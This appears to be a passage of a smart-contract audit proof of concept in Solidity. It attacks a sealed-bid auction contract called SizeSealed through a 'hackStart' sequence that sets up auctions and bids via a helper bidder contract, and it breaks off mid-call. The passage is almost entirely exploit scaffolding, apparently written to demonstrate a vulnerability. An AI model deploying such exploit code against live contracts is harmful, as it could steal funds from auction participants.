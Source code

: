 ```solidity
contract ExternalBidder
{
    uint256 constant privateKey = uint256(0xabcdabcd); 
    function createBid(ERC20 quoteToken, SizeSealed sizeSealed, uint256 auctionId, uint128 quoteAmount, uint256 sellerPrivateKey, bytes32 message) external returns (uint256) {
        quoteToken.approve(address(sizeSealed), quoteAmount);

        (, bytes32 encryptedMessage) = ECCMath.encryptMessage(ECCMath.publicKey(sellerPrivateKey), privateKey, message);

        return sizeSealed.bid(
            auctionId,
            quoteAmount,
            keccak256(abi.encode(message)),
            ECCMath.publicKey(privateKey),
            encryptedMessage,
            "",
            new bytes32[](0)
        );
    }
}

contract PoC
{
    SizeSealed sizeSealed;
    MintableERC20 token1;
    MintableERC20 token2;
    ExternalBidder externalBidder;

    uint256 hackStartTimestamp;

    uint256 firstAuctionId;
    uint256 secondAuctionId;

    uint256 constant privateKey = uint256(0xc0de1234); 

    constructor() {
        sizeSealed = new SizeSealed();
        token1 = new MintableERC20();
        token2 = new MintableERC20();
        externalBidder = new ExternalBidder();
    }

    // First transaction
    function hackStart() external returns (uint256) {
        require(hackStartTimestamp == 0);
        hackStartTimestamp = block.timestamp;

        {
            token1.mint(address(this), 123);
            token1.approve(address(sizeSealed), 123);
            firstAuctionId = createAuction(token1, token2, 123);
            require(firstAuctionId == 1);

            uint256 quoteAmount = 1;
            uint256 baseAmount = 1;
            token2.mint(address(this), quoteAmount);
            token2.transfer(address(externalBidder), quoteAmount);
            uint256 bidId = externalBidder.createBid(
                token2,
                sizeSealed,
                firstAuctionId,
                uint128(quoteAmount),
```